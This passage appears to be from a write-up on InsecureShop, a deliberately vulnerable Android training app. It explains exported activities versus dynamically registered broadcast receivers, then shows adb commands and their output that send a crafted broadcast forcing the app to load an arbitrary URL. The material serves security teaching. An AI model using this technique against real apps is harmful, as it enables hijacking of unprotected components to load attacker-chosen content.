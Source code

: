 One thing to note here, as many writeups getting it wrong, the `AboutUsActivity` is exported in `AndroidManifest.xml` 

```xml
<activity android:name="com.insecureshop.AboutUsActivity" android:exported="true"/> 
```

But that does not directly impact the ability of another application to trigger the broadcast receiver because we have two types of broadcast receivers:

- **Statically Registered Receiver (via Manifest)**:  A receiver declared in the manifest with `<receiver>` can be exported to allow other apps to send broadcasts to it. If `android:exported="false"` is set in the manifest, only the app itself can trigger the receiver.
- **Dynamically Registered Receiver**:  When you register a receiver dynamically in your activity (using `registerReceiver()`), it only exists while the activity is running.  It can receive broadcasts sent by `sendBroadcast()` within the same application or by any other application if the receiver is not restricted by permissions. Since it is registered **within the context of the running activity**, it does not need to be exported.

Now, let’s craft our exploit code via the AM command utility:

```powershell
PS C:\Users\Muhammad> adb shell am start -n com.insecureshop/.AboutUsActivity
Starting: Intent { cmp=com.insecureshop/.AboutUsActivity }
Warning: Activity not started, its current task has been brought to the front
PS C:\Users\Muhammad> adb shell am broadcast -a com.insecureshop.CUSTOM_INTENT --es web_url "https://itsfading.github.io"
Broadcasting: Intent { act=com.insecureshop.CUSTOM_INTENT (has extras) }
Broadcast completed: result=0 
```

![image.png](/assets/InsecureShop/image%2012.png)
